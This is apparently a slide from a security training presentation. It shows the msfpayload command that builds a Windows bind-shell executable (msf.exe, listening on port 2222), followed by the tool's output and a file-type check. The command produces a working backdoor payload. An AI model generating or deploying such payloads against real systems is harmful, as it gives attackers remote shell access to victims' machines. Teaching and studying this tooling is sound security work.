

# Creating Executable Files
# msfpayload windows/shell_bind_tcp LPORT=2222 X > msf.exe
Created by msfpayload (http://www.metasploit.com).
Payload: windows/shell_bind_tcp
Length: 341
Options: {"LPORT"=>"2222"}

# file msf.exe
msf.exe: PE32 executable for MS Windows (GUI) Intel 80386 32-bit

50